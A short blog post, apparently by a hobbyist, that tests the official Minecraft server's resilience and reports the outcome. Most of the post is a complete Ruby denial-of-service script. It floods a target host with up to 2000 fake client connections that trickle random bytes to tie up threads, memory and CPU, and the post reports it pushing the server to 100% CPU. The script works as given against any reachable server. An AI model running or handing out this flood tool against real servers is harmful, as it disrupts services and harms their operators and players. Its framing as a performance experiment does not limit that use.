 Minecraft DoS
=============

As I talked about in [this](#page=blog/posts/craftd.md&type=blog) post, the official Minecraft
server has few performance problems.

Well, I wanted to test it myself to see what was really going on, not liking Python and not wanting
to install twisted and such I wrote a small Ruby script to simulate the same thing.

    #! /usr/bin/env ruby
    require 'socket'
    require 'thread'

    HOST, PORT = ARGV.shift.split(':') + [25565]
    COUNT      = ARGV.shift || 2000

    sockets = Class.new(Array) {
      def initialize (number)
        @number = number
      end

      def spawn
        self.each {|s|
          self.delete(s) if s.closed?
        }

        to_spawn = @number - self.length

        if to_spawn > 0
          puts "Spawning #{to_spawn} fake connections"

          1.upto(to_spawn) {
            socket = TCPSocket.new(HOST, PORT)
            socket.write_nonblock("\x02\xff\xff")

            self << socket
          }
        end
      end
    }.new(COUNT)

    thread = Thread.new {
      loop do
        sockets.each {|socket|
          begin
            socket.write_nonblock((rand * 255).floor.chr)
          rescue Exception => e
            socket.close rescue nil
          end
        }

        begin; sockets.spawn; rescue; return; end

        sleep 0.5
      end
    }

    thread.join

Well, the result was that the server still let people inside, but it created "Threads: 650 + 650",
used 300 MB of memory for nothing and kept the CPU at 100%.

Not a good result but not even an apocalyptic one.
